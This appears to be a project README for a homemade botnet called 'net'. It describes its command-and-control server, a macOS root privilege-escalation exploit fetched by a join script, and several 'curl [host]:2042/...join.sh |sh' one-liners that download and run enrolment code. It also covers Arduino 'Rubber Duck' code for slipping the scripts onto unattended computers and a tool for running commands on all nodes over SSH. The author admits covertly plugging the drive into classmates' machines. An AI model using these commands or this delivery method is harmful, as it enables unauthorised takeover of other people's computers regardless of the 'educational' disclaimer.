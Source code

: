 <img alt="Lynchburg College logo" src="https://bloximages.newyork1.vip.townnews.com/newsadvance.com/content/tncms/assets/v3/editorial/d/65/d65813d4-0da7-11e7-96af-4f86a016526b/58d0350ab3ae0.image.jpg" align="right" width=200>

# net
Code for building and administrating a rudimentary botnet.

**Please note that I strictly used this code for educational purposes. I do not and never have run a DDoSsing botnet or other such illegal operation and do not condone the use of this code for any malicious purpose.**

I used this code at the Virginia Residential Governor's School for Math, Science, and Technology to take over 36 Raspberry Pi microcomputers and Kali Linux desktops in the cybersecurity class in which I partook. This activity was part of the class, and I absolutely never violated any rules.

## How it works
### Command & Control
C&C is managed on ports `2042` & `2043` of a server. A simple Python script opens a socket on port `2043` which listens for incoming data from nodes. All requests to the server are printed to the terminal, and important ones may be written into `nodes.txt`.

To make control scripts available, run
```sh
python3 -m http.server 2042
```
from the `control` directory. This will use Python's inbuilt simple HTTP server to serve control scripts to nodes upon request.

### Joining
On macOS, two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-command joining: it will download and decrypt an exploit needed to elevate (on OS X El Capitan) to a root shell and then run `enact.sh` in that root shell automatically. That script will handle joining the botnet. If you already have root access, you can just run `enact.sh` directly.

For GNU/Linux, there's just one script, `join.sh`, which must be executed as root or as a user with root privileges.

Here are simple one-liners to join the botnet:

Mac:
```sh
curl [host]:2042/mac/join.sh |sh
```
Linux:
```sh
curl [host]:2042/linux/join.sh |sh
```

To save time and keystrokes, you can use these shortcuts:
```sh
curl [host]:2042/jm |sh
curl [host]:2042/jl |sh
```

Or, to save even more time, you can skip the part where you think about what operating system the computer is using and simply type:
```sh
curl [host]:2042/join.sh |sh
```

Really in a hurry? There's a shortcut for this as well:
```sh
curl [host]:2042/j |sh
```

### Rubber Duck code
In the `duck` directory, you'll find Arduino code for delivering the join scripts automatically to macOS and Linux computers.

I used this code with a Digispark ATTINY85 drive, though it can be easily modified to work with other Rubber Duck USBs.

During the cybersecurity class in which I developed `net`, I plugged the drive into users' computers while they weren't looking, saving me the inconvenience of having to attain keyboard access.

To upload this code to your drive, follow [this tutorial](https://www.youtube.com/watch?v=fGmGBa-4cYQ).

### Tools
Running `tools/run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command through SSH. This is less useful now that cron control exists. You can also run `up.sh` to view which/how many nodes on the current network are online.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).

I'm not affiliated with Lynchburg College in any way, nor does the college endorse this software.
